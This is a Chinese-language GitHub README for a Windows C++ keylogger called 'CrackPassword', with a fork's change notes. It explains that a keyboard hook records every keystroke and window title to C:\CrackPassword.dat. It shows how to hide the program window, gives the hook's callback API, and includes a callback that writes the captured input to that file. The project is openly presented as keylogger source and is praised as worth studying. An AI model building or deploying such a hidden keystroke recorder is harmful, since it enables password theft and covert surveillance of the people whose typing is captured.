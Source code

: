 ## 键盘记录器
开发语言：C++

开发工具：Visual Studio 2019

开发时间：2019.8.7

开发者：[Summer](https://github.com/zz2summer)

参考课程：[C/C++黑客技术：键盘记录器](https://www.bilibili.com/video/av56195928?from=search&seid=8623392146810887085)

项目源码参考：[C语言实现键盘记录器-源码](https://github.com/yuanyuanxiang/KeyboardRecorder/tree/master/CrackPassword)

***

一、编写Crack.dll钩子，记录键盘操作

&emsp;&emsp;源码参考：[Crack]()

二、编写使用程序 CrackPassword

&emsp;&emsp;源码参考：[CrackPassword]()

三、使用说明

&emsp;&emsp;编译之后，双击运行**CrackPassword.exe**，会弹出运行窗口，之后即会记录所有键盘操作，
生成文件**CrackPassword.dat**,保存在**C盘根目录下**，保存内容包含键盘操作的**窗口的标题**和**键盘输入**。

![Alt](runWidget.png#pic_center)

![Alt](saveFile.png#pic_center)

&emsp;&emsp;文件保存目录可在CrackPassword\CrackPassword.cpp中进行自定义修改。
```c
static FILE* pFile = fopen("C:\\CrackPassword.dat", "a+");
```

&emsp;&emsp;程序运行的显示窗口可在CrackPassword\CrackPassword.cpp中进行设置显示或者隐藏。
```c
//ShowWindow(hWnd, SW_HIDE); //隐藏程序运行窗口
ShowWindow(hWnd, SW_SHOW);   //显示程序运行窗口
```

## 代码变更历史
[2025/01/23]

此项目 **Fork** 自[Summer](https://github.com/zz2summer)。经本人验证，编译通过，运行正常，质量较佳，实乃值得学习和借鉴的一个开源项目。

我清理了和项目无关的文件，在根目录增加单个Solution文件`KeyboardRecorder.sln`，将Crack和CrackPassword都包含进去，方便调试。

此外，我更新了初始化钩子的函数，需传递一个回调函数和用户指针，最终键盘消息将通过回调函数交由用户处理。

```c
BOOL InstallHook(Callback cb, void* user);
```

回调函数的定义如下：
```c
typedef int (CALLBACK *Callback)(const char* wnd, const char* key, void* user);
```

我保留了原作者的写文件的例子。实现了`Fwrite`回调函数：
```c
int CALLBACK Fwrite(const char* wnd, const char* key, void* user) {
	char buf[360] = {};
	sprintf_s(buf, "[%s] %s\n", wnd, key);
	return fwrite(buf, strlen(buf), 1, (FILE*)user);
}
```
在钩子初始化时，我们将`Fwrite`和文件句柄`pFile`传递到钩子中：
```c
static FILE* pFile = fopen("C:\\CrackPassword.dat", "a+");
InstallHook(Fwrite, pFile);
```

在`Fwrite`回调函数中，用户能得到窗口名称、键盘值和事先传递给`InstallHook`的指针，以便对消息进行处理。

**注意，回调函数不能阻塞!**
